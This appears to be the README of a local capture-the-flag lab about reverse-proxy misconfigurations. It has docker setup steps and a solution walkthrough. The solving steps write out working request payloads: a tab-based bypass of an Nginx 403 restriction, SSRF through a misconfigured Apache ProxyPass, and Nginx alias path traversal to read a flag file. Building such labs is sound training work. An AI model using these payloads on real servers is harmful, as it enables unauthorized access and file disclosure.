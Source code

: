 # weird_proxies_ctf

Insiperd by [https://github.com/GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies)

## Installation
- Find all `TODO` and follow
- Change flag at `backend_nginx/flag`
- `docker-compose build`
- `docker-compose up`
- task access `http://localhost:8082/`

## Solving steps
1. Gunicorn + Nginx 403 `/admin` path restriction bypass via [technique](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14): `GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`
2. Find path as random UUID from the response: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`
3. Find `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` path with other backend
4. Exploit SSRF via misconfigured Apache ProxyPass: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91//wiki/@backend_nginx`
5. Exploit Nginx alias traversal for limited file reading: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`
